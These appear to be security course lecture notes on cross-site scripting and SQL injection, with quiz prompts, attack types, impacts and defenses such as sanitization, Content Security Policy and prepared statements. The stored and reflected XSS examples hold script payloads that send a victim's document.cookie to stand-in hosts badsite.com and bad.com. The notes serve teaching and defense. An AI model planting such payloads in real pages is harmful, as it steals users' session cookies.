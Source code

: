 ```yaml
---
layout: ../../../layouts/SemesterMarkdown.astro
---
```


# XSS and SQL injection

## Ungraded Quiz

- use an example to explain how a stored XSS attack works
- use an example to explain how a SQL injection attack works

## Key concepts

### XSS: cross-site scripting

- injecting malicious scripts into HTML tags or or web pages 0 rendering the
  HTML causes the script to be executed

- _stored/persistent XSS_:

```HTML
Here is a picture of my dog <img id="mydogpic" src="dog.jpg">
  <script>document.getElementById("mydogpic").src="http://badsite.com/dog.jpg?arg1=" + document.cookie </script>
```

- _websites must sanitize input!_

- _reflected (non-persistent) XSS_:

```HTML
Our favorite site for deals is www.good.com:  <a href=’http://www.good.com/ <script>document.location="http://bad.com/dog.jpg?arg1="+document.cookie; </script>’> Click here </a>
```

- takes advantage of a site that returns 404 errors with
  `File-not-found: filepath-requested`

- _DOM-based XSS_

  - see [DOM-based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)

- [see Figure 9.6, page 264](https://people.scs.carleton.ca/~paulv/toolsjewels/TJrev1/ch9-rev1.pdf)

- for another source on XSS attacks, see
  [types of cross-site scripting](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)

- XSS impacts

  - once you allow an attacker to inject JavaScript, they can do a lot
  - browser redirection
  - access cookies
  - access browser-stored data for a website
  - rewrite the document being displayed
  - exploit browser vulnerabilities

- defenses
  - sanitize input by removing tags
  - [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
    - server can specify which domains are allowed to execute scripts

### SQL Injection

- why a vulnerability exists

  - databases store information in tables
  - scripts construct SQL queries
  - scripts use input from cookies, variables, users

- SQL injection

  - crafting input so an attacker chooses an SQL command to be executed
  - extraction
  - modification
  - unauthorized account access
  - denial of service

- see
  [Examples, page 267 and 268](https://people.scs.carleton.ca/~paulv/toolsjewels/TJrev1/ch9-rev1.pdf)

- see [Example, page]

- defenses

  - _escaping_ problematic characters
  - _denylists_: filtering out denied commands
  - _positive validation_: only allowing certain commands

  - see
    [prepared statements, OWASP](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
